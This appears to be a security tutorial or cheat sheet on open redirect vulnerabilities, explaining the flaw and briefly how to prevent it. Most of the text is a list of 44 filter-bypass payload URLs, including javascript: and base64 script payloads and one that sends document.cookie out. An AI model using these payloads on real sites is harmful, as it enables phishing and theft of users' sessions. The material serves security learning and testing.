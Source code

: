 # Open redirect vulnerability

## What is an open redirect?

- It is a vulnerability that occurs when a website redirects users to a URL specified via a parameter without validating or restricting it.
- This allows an attacker to redirect users to malicious websites using the vulnerable site as a trusted bridge.

### Practical example

Imagine you have a link like this:  
`https://example.com/redirect?url=https://evil.com`  

If the website redirects the user directly to the value of the `url` parameter without checking its safety, then it's vulnerable to Open Redirect.

---

## How is it exploited?

1. The attacker crafts a URL like:  
   `https://example.com/redirect?url=https://phishing.com`
2. The victim clicks the link because it appears to be from a trusted domain (example.com).
3. The website redirects the victim to the malicious site (phishing.com).
4. The victim may enter sensitive information (e.g., credentials), which the attacker then captures.

---

## How can you bypass security filters?

1. `https://example.com/redirect?url=//phishing.com`  
   - Double slashes make it load as an absolute external URL.

2. `https://example.com/redirect?url=////phishing.com`  
   - Repeated slashes can bypass naive filters.

3. `https://example.com/redirect?url=javascript:confirm()`  
   - Triggers JavaScript execution directly.

4. `https://example.com/redirect?url=www.whitelisted.com.phishing.com`  
   - Subdomain trick to appear similar to a whitelisted domain.

5. `https://example.com/redirect?url=//phishing%E3%80%82com`  
   - Unicode dot (`。`) instead of a regular dot.

6. `https://example.com/redirect?url=https://phishing%E3%80%82com`  
   - Unicode dot in a fully qualified URL.

7. `https://example.com/redirect?url=//phishing%00.com`  
   - Null byte can bypass weak validations.

8. `https://example.com/redirect?url=whitelisted.com&url=phishing.com`  
   - Some servers read only the last repeated parameter.

9. `http://www.example.com@phishing.com`  
   - User-info section tricks users visually.

10. `https://www.example.com//phishing.com`  
    - Double slashes in the path to bypass filters.

11. `https://www.example.com%09.phishing.com`  
    - Using a tab character to confuse parsers.

12. `https://www.example.com%252e.phishing.com`  
    - Double-encoded dot to bypass validations.

13. `https://trusted.com@evil.com`  
    - Misleads with a trusted domain in the user-info part.

14. `https://evil.com/trusted.com`  
    - Looks like trusted domain is a directory.

15. `https://trusted.com%2F@evil.com`  
    - Encoded slash to trick filters.

16. `https://trusted.com%00.evil.com`  
    - Null byte to terminate strings.

17. `https://evil.com?x=https://trusted.com`  
    - Legit domain passed as a parameter, but base URL is malicious.

18. `https://evil.com/trusted-site.com/`  
    - Legit domain as a directory.

19. `https://evil.com@trusted-site.com/`  
    - Trusted domain after `@` misleading the user.

20. `https://example.com?url=https:evil.com`  
    - Missing slash in protocol to trick filters.

21. `https://example.com?url=javascript:alert(1)`  
    - Simple JavaScript injection.

22. `https://example.com?url=javascript%3Aalert(1)`  
    - URL-encoded JavaScript payload.

23. `https://example.com?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==`  
    - Base64-encoded script execution.

24. `https://example.com?url=//google%E3%80%82com`  
    - Unicode dot for Google domain.

25. `https://example.com?url=//google%00.com`  
    - Null byte after a trusted domain.

26. `https://evil.c℀.example.com`  
    - Unicode character to split trusted domain visually.

27. `http://a.com／X.b.com`  
    - Fullwidth slash to trick parsers.

28. `https://example.com?url=javascript://%250Aalert(1)`  
    - Encoded newline in JavaScript scheme.

29. `https://example.com?url=javascript://%250Aalert(1)//?1`  
    - More complex JS bypass using comments.

30. `https://example.com?url=javascript://%250A1?alert(1):0`  
    - JS logic trick in the payload.

31. `https://example.com?url=%09Jav%09ascript:alert(document.domain)`  
    - Tab characters to bypass filters.

32. `https://example.com?url=javascript://%250Alert(document.location=document.cookie)`  
    - Inline JS payload to leak cookies.

33. `https://example.com?url=/%09/javascript:alert(1);`  
    - Using tabs in path to bypass basic filters.

34. `https://example.com?url=//%5cjavascript:alert(1);`  
    - Backslash encoding to trick parsers.

35. `https://example.com?url=/javascript:alert(1);`  
    - Direct JS payload in path.

36. `https://example.com?url=\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)`  
    - Obfuscated JS to trick regex filters.

37. `https://example.com?url=javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)`  
    - Capitalized JS scheme + line breaks.

38. `https://example.com?url=javascript:confirm(1)`  
    - Alternative JS function for testing.

39. `https://example.com?url=javascript://whitelisted.com//%0d%0aalert(1);`  
    - Mixing whitelisted domain and JS tricks.

40. `https://example.com?url=javascript://whitelisted.com?%a0alert(1)`  
    - Using non-breaking space to bypass.

41. `https://example.com?url=/x:1/:///%01javascript:alert(document.cookie)/`  
    - Complex nested trick with JS.

42. `https://example.com?url=";alert(0);//`  
    - Basic JS payload in parameter.

43. `https://example.com?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==`  
    - Another base64 encoded script execution.

44. `https://example.com?url=javascript:prompt(1)`  
    - Using `prompt` instead of `alert` to trick simple filters.

---

## Why is it dangerous?

- It can be used in phishing attacks.
- It breaks the trust users have in a legitimate site.
- It allows attackers to mask the real destination of a malicious link.

---

## How to prevent it?

- Filter redirect URLs: Only allow redirects to internal URLs or a trusted whitelist of domains.
- Validate the redirect target: Make sure the redirect URL is safe and expected.
- Avoid passing raw URLs in parameters: Use encrypted values or short-lived tokens instead.
